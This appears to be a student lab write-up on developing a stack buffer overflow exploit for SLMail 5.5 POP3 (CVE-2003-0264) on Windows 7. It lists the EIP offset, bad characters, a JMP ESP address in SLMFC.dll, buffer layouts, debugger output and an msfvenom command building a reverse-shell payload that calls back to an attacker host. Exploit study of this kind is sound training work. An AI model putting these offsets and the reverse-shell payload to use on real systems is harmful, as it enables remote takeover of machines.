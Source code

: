 # zeit8042 - Shellcode Design to Buffer Overflow on Windows 7 Machine using vulnerable application as SLMail. 
What we try to achieve?
•	Get the control of EIP register.
•	Tell instruction register to execute our preferred program like /bin/sh, reverse shell, shellcode execution.
•	Or point to the exact memory location where it can execute code or program.
How we do it?
1.	Spiking: Find a vulnerable program or code or application which can use to start exploiting the system and get help of the resources. In our case it is SLmail 5.5: POP3 which is unauthenticated buffer overflow vulnerability exist according to exploit database CVE 2003-0264.
2.	Fuzzing: Try to find out whether the application could be exploited or not? In our case we send a bunch of ‘A’ characters to the application to see (using Immunity Debugger) if we can overrun the ESP | EBP | EIP registers.
3.	Determine the offset of the register: Try to find out the exact position EIP register: means find out the exact memory address of EIP, that can make demarcation point between buffer and EIP | EBP | ESP register. In our case, we use Metasploit-framework (pattern_create.rb | pattern_offset.rb) tools.
4.	Take control of the EIP register: Overwriting the EIP register with the address of the exploitable application or shellcode.
5.	Finding the Bad Characters: List of unwanted characters that can break the shellcode. In SLmail application we found \x00, \x0A, \x0D bad characters.
6.	Finding the right module: Try to find out .DLL or something similar that has no memory protection or could be exploitable. In our case we found SKmail.dll and we try to find an address of an instruction like JMP ESP. Later, stack pointer points to shellcode or other application like /bin/sh or get the reuse shell of the attacked system.
7.	Generate the shellcode (when DEP is disabled): Execute the code to get reverse shell of the attacked system. In our case we use msfvenom tools to generate shellcode.
8.	Generate the ROP Chains (when DEP enabled): 


################################################
Step-By-Step Procedure for developing the Shellcode:
###############################################



(1)	./buffer – fuzz.py -> executed (check if EIP could be buffer-overflow or not!)
ESP = 023FA128 … (AAA ….) only ‘A’ send out
EIP = 41414141 (Achieved)

(2)	./buffer – fuzz – pattern.py
ESP = 022EA128 (Dj0Dj1Dj...)

(A)	In ID (Immunity Debugger): after attaching the SLMail application.
Kali Linux MC: find pattern_create
	Locate pattern_create
O/P: /user/bin/msf-pattern_create
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb
Now execute this:
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb  - l 2700
O/P: Aa0Aa1…
-> Copy this: “(string as buffer…)” and put it in our buffer-fuzz-pattern.py file.
	Run our buffer-fuzz-pattern.py file from Kali M/C when ID is running at Win7 M/C with SLMail application attached. 
	ID “access violation…. [39694438]… found”
	Go back to Kali and find out pattern_offset
Kali: locate pattern_offset
	O/P: /user/bin/msf-pattern_offset
		/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb
	Now run in Kali M/C.
Kali M/C:
/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb – q 39694438
O/P: [*] Exact match at offset 2606

(3)	./buffer-fuzz-offset.py

Buffer = “A” * 2606 + “B” * 4 + “C” * 290  create a 2900 bytes
and check the EIP resistor if it is ‘BBBB’ or ‘42424242’ means our offset is correct.

	Run the program from Kali (./buffer-fuzz-offset.py)
	Run ID in Win7 machine where SLMail is attached with it.
O/P at ID is:
	ESP: full of ‘CCCCCC….’
	EIP: 42424242
	Means OFFSET ‘2606’ is correct to reach EIP resistor.
Now, increase our buffer size to 3500 bytes using more ‘C’  ./buffer-fuzz-C.py

(4)	./buffer-fuzz-badchars.py

We need to find bad characters from the file as it will make the output out of order. For this reason, construct a bad char byte array. It is done from ID in win Win7 M/C
	!mona bytearray 
O/P is bytearray.txt in the ID folder. 
	Copy the byte contexts from bytearray.txt file and create a .py file as buffer-fuzz-badchars.py
	In this file, include the bytearray as variable badchars = …… and ‘buffer’ variable looks like in the following:
Buffer = “A” * 2606 + “B” * 4 + badchars
	Now run this .py from Kali Linux M/C and check this in ID on Win7 M/C after attaching the SLMail application. 
	Now ECX resistor show  illegal command…. AAA… click it and follow in dump. 
O/P: (ECX 025A9ECA ASCII “………. AAAA……”)
	In the DUMP window O/P check the contents after
42 42 42 42 01 02 03 04 05 06 07 08 09 29 20

After 09, it should be 0a 0b… rather 29 20 
So I/P character and O/P character have discrepancies. 
It means OA is bad character.
So remove this from I/P file  means buffer-fuzz-badchar.py file delete the ‘OA’ file from the badchar variable and save it. 
	Do the previous process again and run it.
	And find out ‘\X0D’ has another bad character.
	‘\X00’ also a bad character.
	So from onwards, we have to remember to exclude ‘\X00’, ‘\X0A’ and ‘\X0D’ characters. 

(5)	./buffer-fuzz-C.py (check if EIP’s particular position could be determined)
ESP = 0226A128 (CCCC….)
EIP: 42424242 (Achieved)
(6)	Find the memory address of JMP ESP.
	In the ID: search for >command>JMP ESP (Find Command Windows)
	The OP code for JMP ESP is ‘FFE4’ means “\XFF\XE4”
	Run 
!mona find -s “\XFF\XE4” – m slmfc.dll
	Why is slmfc.dll, why not ntdll.dll?
-	Because .dll module should be ASLR and REBASE false. In case of ntdlll.dlll  both are true.
-	In shellcode execution we need fixed memory address which will not change at this. This is vital for our shellcode executed process.
O/P: 0X5F4A358F
	0X5F4B11E3
…
19 points found.

I choose OX5F4A358F as it has no bad characters and ASLR & REBASE are false. 
	SLMFC.DLL modules.

	Now reconstruct or update our buffer code.
o	In buffer-fuzz-jmp-esp.py file.
Buffer = “A”*2606+”\X8F\X35\X4A\X5F”+”C”*(3500-2606-4)

As we are using Intel machine and it is little endian, addresses are in reverse order. 
	Now run the program ./buffer-fuzz-jmp-esp.py 
Against ID(Win 7 M/C) > SLMail application attached to it.

ESP = 019CA128    ASCII “CCCCC….”
EBP = 41414141
EIP = 019CA2D6

On the stack dump: O/P is 
019CA11C	41414141	AAAA
019CA120	41414141	AAAA
019CA124	5F4A358F	SLMFC.5F4A3585	 A
019CA128	43434343				 B	
019CA12C	43434343

(A)	It is important (0X019CA124) memory location contain string (5F4A358F), which in actually a memory address that stack do not consider. It’s job in when EIP resistor have this input it see whether it is a legitimate address or not? If not ‘access violation’ or jump to that location. When it jump to that location, it found ‘JMP ESP’ instruction or op code of “\XFF\XEA”. 
(B)	To execute the instruction it go to the stack pointer at (0X19CA128) memory location and fetch the contents. If we put our exploit here then it will execute. In many case, “\X90”: NOP (no operation) op code use to direct the shellcode execution location. 
Next the shellcode execution.

(7)	Shellcode execution.

On the Kali Linux M/C execute following command to get the reverse shell of Windows 7 M/C:

	msfvenom -p windows/shell_reverse_tcp LHOST=<attack m/c IP> LPORT=<port#> -f c -a x86 –platform windows -b “\X00\X0A\X0D” -e X86/shikata_ga_nai
	Copy the O/P of this command and put it in the clipboard.













Youtube Link: https://www.youtube.com/watch?v=j-K0jX0vgkI&ab_channel=AhasanAnowar

